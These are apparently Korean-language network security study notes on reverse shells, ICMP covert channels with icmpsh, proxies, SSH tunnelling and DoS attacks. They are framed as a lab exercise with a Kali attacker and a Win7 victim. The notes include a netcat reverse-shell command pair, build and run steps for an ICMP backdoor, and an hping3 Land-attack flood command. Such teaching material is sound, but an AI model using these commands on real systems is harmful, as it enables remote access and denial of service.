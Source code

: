 * 역방향 연결(reverse connection, reverse shell)
    - 희생자 : nc <리눅스IP 4444> -e cmd.exe
    - 공격자 : nc -lvp 4444 

### 은닉 채널(Covert Channel)
* 사용하지 않는 공간에 데이터 은닉
* 1973년 램프슨(Lampson)에 의해 정의된 용어
* 표면적인 목적 외의 정보나 은닉 메시지를 전송하기 위해 기본 통신 채널에 기생하는 통신 채널


#### icmp 백도어, icmp 은닉채널, icmp 터널링
```bash
$ yum install gcc -y
$ gcc icmpsh-m.c -o icmpsh
$ sysctl -w net.ipv4.icmp_echo_ignore_all=1
$ ./icmpsh
```
* `$ sysctl -w net.ipv4.icmp_echo_ignore_all=1`  
    - 핑을 무시하는 설정

### 프록시
* 프록시 서버
    - 클라이언트가 자신을 통해서 다른 네트워크에 간접적으로 접속할 수 있게 해주는 컴퓨터나 응용프로그램을 가리킴
      
* Forward Proxy
    - CDN(속도 업), 우회 등
* Reverse Proxy
    - 감시, 스크린 등

### 터널링
* 터널링
    - 데이터 스트림을 인터넷상에서 가상의 파이프를 통해 전달시키는 기술
    - 패킷 내에 터널링할 대상을 캡슐화시켜 목적지까지 전송하는 기술
    * IPSec, SSL, OpenVPN 등
    * PPTP, L2TP

================================================
#### SSH 터널링
* Local port forwarding
* Remote port forwarding
* Dynamic port forwarding

---
## DoS, DDoS
* DoS attack : flooding attack
    - icmp flooding, UDP flooding 등

1. Land Attack
    - 패킷을 전송할 때 출발지 IP 주소와 목적지 IP 주소 값을 똑같이 만들어서 공격 대상에 보내는 것 
* 보안대책 : 최신 OS에는 효과 없음
```
hping3  192.168.18.131 -a 192.168.18.131 --icmp --flood
   -a : 출발지 IP

공격자kali : 192.168.195.129
희생자win7 : 192.168.195.130
```
